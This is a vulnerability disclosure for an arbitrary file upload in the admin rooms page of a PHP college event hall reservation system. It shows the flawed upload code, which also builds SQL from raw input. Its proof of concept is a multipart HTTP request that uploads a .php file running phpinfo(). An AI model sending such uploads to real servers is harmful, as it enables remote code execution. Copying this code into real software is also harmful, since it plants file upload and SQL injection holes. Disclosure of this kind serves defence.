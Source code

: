 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Arbitrary File Upload rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/rooms.php

## Code
```php
if (isset($_POST['submit'])) {
    if (empty($_POST['roomname'])) {
        $errors['roomname'] = "Enter the roomname field";
    } else {
        $roomname = $_POST['roomname'];
    }
    if (empty($_POST['roomnum'])) {
        $errors['roomnum'] = "Enter the roomnum field";
    } else {
        $roomnum = $_POST['roomnum'];
    }
    if (empty($_POST['location'])) {
        $errors['location'] = "Enter the Location";
    } else {
        $location = $_POST['location'];
    }
    if (empty($_POST['roomid'])) {
        $errors['roomid'] = "Enter the roomid field";
    } else {
        $roomid = $_POST['roomid'];
    }
    $capacity = $_POST['capacity'];
    $description = $_POST['description'];
    $query = "INSERT INTO tbl_rooms(room_name,capacity,location,description,room_number) VALUES('$roomname','$capacity','$location','$description','$roomnum')";
    $result = mysqli_query($conn, $query);

    if (!$result) { ?>
        <script>alert("Already Exisits");</script>
        <?php
    } else {
        var_dump('huatong');
        $filename = $_FILES["imgfile"]["name"];
        $ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));

        $query1 = "SELECT * FROM tbl_rooms WHERE room_number='$roomnum'";
        $result1 = mysqli_query($conn, $query1);
        $row = mysqli_fetch_assoc($result1);
        $roomid = $row['room_id'];
        $filename = $roomid . '.' . $ext;
        $tempname = $_FILES["imgfile"]["tmp_name"];
        $folder = "../images/" . $filename;
        $upload = move_uploaded_file($tempname, $folder);
        $query2 = "UPDATE tbl_rooms SET img_name='$filename' WHERE room_id='$roomid'";
        $result2 = mysqli_query($conn, $query2);
        if (!$result2) {
            echo "Error" . mysqli_error($conn);
        }
    }
}
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/rooms.php?id= HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 1004


------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="submit"

92asd
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="roomname"

92asd
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="roomnum"

92asd
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="Username"

asdasd
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="location"

asdasdasd
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="roomid"

NoChiZPlZ
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="capacity"

1
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="description"

asdasdasd
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="imgfile"; filename="nochizplz.php"
Content-Type: text/php

<?php phpinfo(); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/86bd7796-d148-4868-8bc0-065d5db33946)

![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/3a0fb55c-affc-4bb8-8537-8aa7d922a04a)

